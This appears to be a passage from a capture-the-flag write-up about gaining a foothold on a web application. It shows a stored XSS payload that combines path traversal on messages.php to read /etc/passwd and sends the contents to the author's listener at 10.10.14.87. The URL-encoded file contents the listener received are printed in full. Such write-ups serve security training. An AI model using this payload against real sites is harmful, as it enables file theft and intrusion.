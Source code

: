 Discovered `messages.php` which accepted a `file` parameter:
```html
<h1>Messages</h1>
<ul>
    <li>
        <a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a>
    </li>
</ul>
```

## Initial Foothold

### Path Traversal Exploitation

Combined the stored XSS with a path traversal attack to exfiltrate file contents:
```markdown
# <img src="x" onerror="fetch('/messages.php?file=../../../../etc/passwd').then(r=>r.text()).then(d=>fetch('http://10.10.14.87:8181/log?data='+encodeURIComponent(d)))">
```

When an administrator visited the shared link, the XSS executed and sent the encoded contents of `/etc/passwd` to my listening server:
```text
%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A
```
